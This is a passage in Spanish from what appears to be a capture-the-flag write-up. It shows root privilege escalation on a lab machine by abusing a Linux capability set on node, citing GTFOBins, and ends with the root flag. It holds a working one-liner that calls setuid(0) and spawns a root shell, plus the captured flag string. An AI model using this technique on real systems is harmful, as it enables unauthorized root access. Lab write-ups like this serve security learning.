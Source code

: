 URL = [Capabilitie Node GTFObins](https://gtfobins.github.io/gtfobins/node/#capabilities)

Buscando veremos que si podemos aprovechar una escala a `root` mediante la `capabilitie` de `node` por lo que haremos lo siguiente:

```shell
/usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Info:

```
# whoami
root
```

Con esto veremos que ya seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
Imthesuperhuman
```
